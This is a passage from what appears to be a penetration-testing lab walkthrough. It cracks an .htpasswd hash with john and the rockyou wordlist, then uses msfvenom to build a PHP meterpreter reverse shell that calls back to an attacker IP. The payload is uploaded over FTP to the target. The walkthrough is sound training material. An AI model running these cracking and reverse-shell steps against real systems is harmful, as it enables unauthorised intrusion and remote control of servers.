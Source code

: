 We can use `john` to attempt to crack the retrieved password hash.

```
kali@kali:~$ john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)
1g 0:00:00:00 DONE (2020-12-27 17:56) 8.333g/s 211200p/s 211200c/s 211200C/s 191192..260989
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```

We discover that the password for the `offsec` user is `elite`.

### PHP Reverse Shell

Since we discovered a PHP file on the server, it is reasonable to assume that the server can interpret and process PHP files. We can try to upload a PHP reverse shell. First, we'll generate the payload.

```
kali@kali:~$ msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=192.168.49.68 lport=443 > pwn.php

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
```

Next, we'll log back in to FTP as `admin` and upload the malicious PHP file.

```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> put pwn.php
local: pwn.php remote: pwn.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
1113 bytes sent in 0.00 secs (14.9499 MB/s)
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 5
-r--r--r--   1 root     root         1113 Dec 28 02:08 pwn.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
```